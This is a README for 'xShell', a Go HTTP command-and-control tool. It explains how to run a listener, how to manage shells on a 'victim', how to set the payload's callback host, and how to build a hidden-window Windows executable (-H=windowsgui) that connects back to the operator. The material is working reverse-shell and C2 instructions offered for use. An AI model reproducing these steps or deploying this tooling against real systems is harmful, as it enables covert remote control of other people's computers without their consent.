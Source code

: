 <div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple concurrent http shell</i></p>
  <br/>
</div>

# About
- Commands are executed by workers
- Workers are goroutines that simply execute the commands
- All workers are indexed in a worker map
- Workers are dynamically allocated based on workload
- Beacon workers are responsible for callbacks
# Usage
### Change listener port:
In c2/httpC2.go:
```go
const Port = "80" // change port here
```

### Start listener:
```sh
go run c2/httpC2.go
```
If you want the listener to listen on port 80 or 443 you must use sudo:
```sh
sudo go run c2/httpC2.go
```

### Listener commands:
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
quit - quit shell (closes shell on victim)
exit - return to main menu (shell continues to run)
```

### Set call back host:
In payload/xShell.go:
```go
const ServerAddr = "127.0.0.1:80" // change this to your servers IP/Host
```

### Build shell:
```sh
GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui -o xShell.exe payload/xShell.go
```